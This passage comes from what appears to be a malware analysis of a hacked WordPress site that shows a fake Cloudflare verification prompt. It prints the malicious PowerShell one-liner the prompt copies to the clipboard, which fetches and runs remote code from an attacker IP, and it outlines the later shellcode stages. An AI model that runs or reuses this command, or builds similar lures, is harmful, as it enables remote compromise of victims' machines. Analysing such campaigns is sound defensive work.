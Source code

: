 ![Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"](./artifacts/screenshots/breakers-driveby-4.png)
*Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"*

From here, the victim is asked to click the fake Turnstile checkbox, which then copies a malicious PowerShell command
which the victim would then run in the Windows Run dialog, which will download and execute another stager that runs on
the victim's local machine.

```ps
# this PowerShell command gets copied to the clipboard upon checking the fake verification box.
powershell -w h -nop -c iex(iwr -Uri 155.94.155[.]25 -UseBasicParsing)
```

Based on a quick analysis of the ran PowerShell command, it pulls another PowerShell script which is executed, which
downloads shellcode that is executed on the victim machine. Further analysis can be started from the *References* section.


## Initial Access Hypotheses

While we were able to analyze what happens between the injected JavaScript being loaded into the webpage to victim
machine execution, the question stands... how did the initial `<script>` tag end up in the first place?

Three possible hypotheses arise, each based on my personal experience with WordPress site administration.
